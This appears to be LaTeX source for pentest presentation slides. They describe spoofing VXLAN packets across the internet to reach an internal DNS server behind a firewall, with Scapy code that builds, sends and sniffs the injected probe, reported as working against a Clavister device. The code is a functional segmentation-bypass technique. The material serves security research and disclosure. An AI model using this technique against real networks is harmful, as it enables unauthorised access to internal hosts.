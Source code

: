 \documentclass[Screen16to9,17pt,footrule]{foils}
\begin{document}
\begin{enumerate}
\item Select target: internal server, 10.0.0.10 and DNS service 53/UDP
\item Create VXLAN packet(s): DNS request dst 10.0.0.10 UDP dport 53
\item Source for this probe is your external pentest server
\item Make sure inside packet has Ethernet destination that reaches server
\item Send spoofed VXLAN packet across internet
\item After VXLAN decap this packet is sent to the server
\item Server process DNS request, send back response
\item Attacker waiting for the UDP DNS reply, gets it
\end{enumerate}
 Attacker can send UDP DNS request to inside server on RFC1918 destination.
 Tested working with Clavister with DNS UDP probes/requests, no inspection \smiley





First create VXLAN header and inside packet
\begin{alltt}\footnotesize
vxlanport=4789
vni=37 {\bf
vxlan=Ether(dst=routermac)/IP(src=vtepsrc,dst=vtepdst)/
   UDP(sport=vxlanport,dport=vxlanport)/VXLAN(vni=vni,flags="Instance")}

broadcastmac="ff:ff:ff:ff:ff:ff"
randommac="00:51:52:01:02:03"
attacker="185.27.115.666"
destination="10.0.0.10"
# port is the one we want to contact inside the firewall
insideport=53
# this port is a high port, just make this look like a normal request
testport=54040
packet={\bf vxlan}/Ether(dst=broadcastmac,src=randommac)/IP(src=attacker,
    dst=destination)/UDP(sport=testport,dport=insideport)/
    DNS(rd=1,id=0xdead,qd=DNSQR(qname="www.wikipedia.org"))
\end{alltt}

{\small Fun fact, Unbound on OpenBSD reply to DNS requests received in Ethernet packets with broadcast destination and IP destination being the IP of the server}



Send and then wait for something, not from same IP bc from\\
inside NAT, but port should be OK
\begin{alltt}\footnotesize
pid = os.fork()
if pid:
    # we are the parent
    print "parent: setting up sniffing"
    # Wait for UDP packet
    data = sniff(filter="udp and port 54040 and net 192.0.2.0/24", count=1)
else:
    # we are the child
    time.sleep(10)
    print "child: sending packet"
    sendp(packet,loop=0)
    print "child: closing"
    sys.exit(0)
#print data.summary()
data[0].show()
\end{alltt}
\end{document}
